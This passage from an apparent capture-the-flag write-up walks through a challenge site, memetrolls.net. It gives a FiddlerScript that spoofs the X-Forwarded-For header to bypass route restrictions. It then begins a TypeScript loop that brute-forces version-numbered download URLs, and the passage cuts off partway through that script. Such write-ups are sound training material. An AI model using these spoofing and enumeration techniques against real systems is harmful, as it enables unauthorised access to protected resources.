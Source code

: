 A simple proxy like [Fiddler Classic](https://www.telerik.com/fiddler/fiddler-classic) can be used to intercept and modify requests.

One ChatGPT prompt later, we have a FiddlerScript which will modify our requests to include the spoofed IP header.

```cs
import Fiddler;
class Handlers
{
    static function OnBeforeRequest(oSession: Session) {
        // Check if the session object exists
        if (oSession != null && oSession.uriContains("memetrolls.net")) {
            // Set the request headers
            oSession.oRequest["X-Forwarded-For"] = "10.0.0.1";
        }
    }
}
```

With this, we can finally access any **Hacker** route we please! If you have a keen eye, you would know that we've been targetting the '/docs' route. If we visit it now, we get access to a fake file list view.

We can find a handbook here, specifically for managers at the company!

## Breaking into the Manager Account

It is of the up-most **IMPORTANCE** that you read the 'Sexual Harassment Policy' in the handbook.

Once you're finished, we can scroll down and read the bolded, yellow-highlighted text which states:
```
Note: As of 03/02/2024, password resets have been delegated from the IT Team to the corresponding department manager due to lay-offs. You may do this with the argIAM Credential Helper (argIAMCredentialHelper). This requires your physical PIN. Never share this, and keep it on paper!
```

There's also a block which states:
```
Q: What do I do when an application doesn’t work anymore?

We keep updating our tools for the very best security compliance. Just re-download the tool from /insider/ops/dl/<name>/v<exe version>.zip. The password is the year when the company was founded.
```

We know the application name: `argIAMCredentialHelper`, but we don't know the EXE version.\
Windows executables come with some extra metadata, including a file and executable version.\
Here we deduce the file version formation: `vX.X.X.X`.

Some quick scripting later, we have a script to brute-force the file version:
```ts
console.clear();

const url = "http://olivia.memetrolls.net:2507/insider/ops/dl/argIAMCredentialHelper/v";

const sleep = (milliseconds: any) => {
    return new Promise(resolve => setTimeout(resolve, milliseconds))
};

(async() => {
    for (let a = 1; a < 10; a++) {
        for (let b = 0; b < 10; b++) {
            for (let c = 0; c < 10; c++) {
                for (let d = 0; d < 10; d++) {
                    const formed = `${url}${a}.${b}.${c}.${d}.zip`;
                    fetch(formed, {
                        method: "GET",
                        headers: {
```